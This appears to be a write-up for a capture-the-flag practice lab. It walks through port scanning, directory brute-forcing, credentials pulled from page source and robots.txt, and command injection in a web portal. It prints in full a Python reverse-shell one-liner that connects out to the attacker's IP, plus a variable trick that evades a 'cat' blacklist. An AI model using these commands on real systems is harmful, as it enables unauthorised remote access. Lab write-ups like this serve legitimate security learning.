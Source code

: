 # Pickle And Morty WriteUp

Write up for pickle and morty challenge

## Reconnaissance

Use Nmap, we'll get 2 ports:
1. 22(SSH)
2. 80(TCP)

When we access using port 80, and open the developer tools, we'll see the command with a username 
**(R1ckRul3s)**

I tried to use Hydra to access ssh with that username but it seems that ssh access but it didn't work

So i tried to use **gobuster**, to  bruteforce all directory that available:

```sh
gobuster dir -u [web_ip] -w [dir_lists] php,js,py
```
and here's some directories I found:
- index.html
- portal.php

After that we need to input username, and password that I haven't found yet.

I tried to find dissalow dir in robots.txt and found:
**(Wubbalubbadubdub)**

we can use it as password in portal.php and able to access the dashboard.

## Information

- Username: R1ckRul3s
- password: Wubbalubbadubdub
- Some Kind base64 decoded text: rabbit hole


## Reverse Shell

inject python reverse shell command in text area
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[Your_tun0_IP]",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## Gaining Root Access

after we get the reverse shell, I tried to run:

```sh
sudo bash
```
that so we wil run the bash as root

## Ingredients:

### First Ingreditents
we'll get the first ingredient in the portal.php, but ```cat``` was blacklisted, so we use:
```sh
a=ca b=at c={ingredientstextfile} d=.txt;$a$b ${c}${d} 
```
which wil result to 
```sh
	cat {ingredientstextfile}.txt 
```
And give us the first inggredients: **{first ingredients}**

### Second Ingredients
after we gain the reverse shell, go to /home/rick , and 
you'll found the second inggredients:**{second ingredients}**

### Third Ingredients
after we got the root access, we'll find the third ingredients: **{third ingredients}**